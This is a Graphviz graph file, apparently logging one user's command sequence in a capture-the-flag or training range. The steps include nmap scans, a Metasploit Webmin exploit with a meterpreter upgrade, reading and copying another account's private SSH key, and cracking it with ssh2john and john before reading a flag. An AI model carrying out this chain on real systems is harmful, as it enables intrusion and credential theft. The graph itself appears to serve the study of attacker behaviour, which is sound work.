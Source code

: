 // creating graph for user: 87
digraph {
	node [shape=box]
	0 [label="nmap 172.18.1.5 M0 "]
	1 [label="nmap 172.18.1.5 V0 "]
	2 [label="nmap -p- 172.18.1.5 V0 "]
	3 [label="ssh 172.18.1.5 A16 "]
	4 [label="nmap -A 172.18.1.5 V0 "]
	5 [label="msfconsole M2 "]
	7 [label="search webmin M3 "]
	8 [label="use 3 A4 "]
	9 [label="show A5 "]
	10 [label="show all A5 "]
	11 [label="show options M5 "]
	12 [label="set RHOSTS 172.18.1.5 M6 "]
	13 [label="show options V5 "]
	14 [label="exploit M8 "]
	17 [label="set LHOST 10.1.135.83 V6 "]
	18 [label="exploit V8 "]
	19 [label="search shell_to_meterpreter A3 "]
	20 [label="use 0 A4 "]
	22 [label="show options V5 "]
	23 [label="set SESSION 2 A6 "]
	24 [label="run V8 "]
	28 [label="search webmin V3 "]
	29 [label="use 3 A4 "]
	30 [label="exploit V8 "]
	36 [label="show options V5 "]
	37 [label="ssh 172.18.1.5 A16 "]
	38 [label="ls ~/.ssh A10 A16 "]
	39 [label="ssh-keygen A16 "]
	40 [label="ls A10 "]
	41 [label="ls ~/.ssh A10 A16 "]
	42 [label="cd ~/.ssh A16 "]
	43 [label="ls A10 "]
	44 [label="cat id_rsa.pub M12 "]
	45 [label="ssh eve@172.18.1.5 M16 "]
	47 [label="ssh eve@10.1.17.4 V16 "]
	48 [label="ls A10 "]
	49 [label="ls -la A10 "]
	50 [label="cd .ssh A16 "]
	51 [label="ls A10 "]
	52 [label="cat id_rsa V12 "]
	53 [label="ls A10 "]
	55 [label="ssh eve@10.1.17.4 cat ~/.ssh/id_rsa V16 "]
	56 [label="ssh eve@172.18.1.5 cat ~/.ssh/id_rsa V16 "]
	57 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' V16 "]
	58 [label="ssh eve@172.18.1.5 cat '~/.ssh/id_rsa' > key V16 "]
	59 [label="ls A10 "]
	60 [label=".ssh2john.py A14 A16 "]
	61 [label="./ssh2john.py A14 A16 "]
	62 [label="./ssh2john.py key > crack.txt A14 A16 "]
	63 [label="cat crack.txt A1 A9 A11 A12 A17 "]
	64 [label="ls A10 "]
	66 [label="ls A10 "]
	67 [label="ls -la A10 "]
	69 [label="ls A10 "]
	70 [label="john crack.txt A14 "]
	72 [label="ls A10 "]
	74 [label="ls A10 "]
	75 [label="john crack.txt --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	76 [label="ssh eve@10.1.17.4 V16 "]
	78 [label="ls A10 "]
	80 [label="ls A10 "]
	81 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 72 [constraint=false]
	72 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 78 [constraint=false]
	78 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	rankdir=LR
}
